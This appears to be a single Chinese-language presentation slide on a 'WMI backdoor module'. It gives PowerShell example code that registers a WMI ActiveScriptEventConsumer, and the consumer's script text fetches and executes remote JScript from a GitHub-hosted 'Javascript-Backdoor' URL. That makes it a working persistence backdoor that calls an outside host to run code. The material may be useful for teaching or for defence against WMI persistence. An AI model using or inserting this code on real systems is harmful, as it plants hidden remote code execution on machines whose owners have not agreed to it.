

0x02 WMI后门模块
·  Payload获取
示例代码：
$consumerName = 'consP1'
$Command = "GetObject(""script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test"")"

$WMIEventConsumer = Set-WmiInstance -Class ActiveScriptEventConsumer -Namespace "root\subscription" -Arguments @{Name = $consumerName; ScriptingEngine = 'Jscript'; ScriptText = $Command}